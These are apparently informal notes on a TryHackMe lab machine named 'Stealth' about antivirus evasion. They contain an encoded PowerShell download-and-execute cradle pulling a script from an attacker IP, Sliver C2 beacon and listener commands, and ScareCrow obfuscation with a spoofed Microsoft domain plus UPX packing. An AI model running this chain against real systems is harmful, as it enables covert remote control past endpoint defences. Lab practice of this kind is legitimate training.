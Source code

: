 # Stealth Helped-Through

Name: Stealth
Date:  28/2/2024
Difficulty:  Medium
Goals:  
- AV evasion - three hours max
TrLearnt:
Beyond Root:
- Hey - Use hoaxshell

- [[Stealth-Notes.md]]
- [[Stealth-CMD-by-CMDs.md]]

I peaked too much at [Tyler Ramsbey's Stealth - Detailed Walkthrough -- TryHackMe LIVE!](https://www.youtube.com/watch?v=iICjs8754yE) - I eventual to finish this machine a mine the good information I found and learnt.
## Recon of machine and alternatives

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

- PowerShell Contrained Language mode
- AMSI
- Windows Defender
#### Fruits of the Internet Approach 

[HackTricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters), [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/), [lolbas-project.github.io](https://lolbas-project.github.io/lolbas/)
see [[Stealth-Notes]] for more

```bash
kali> echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0
PS> powershell -EncodedCommand <Base64>
```

Sliver Beacon
```bash
generate beacon --mtls  10.11.3.193:8080 --arch amd64 --os windows --save /tmp/8080-sliver.bin -f shellcode -G


mtls -L  10.11.3.193 -l 8080

/opt/ScareCrow/ScareCrow -I /tmp/8080-sliver.bin -Loader binary -domain microsoft.com -obfu -Evasion KnownDLL 
# Build with golang
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
# Pack with upx
upx Word.exe


```
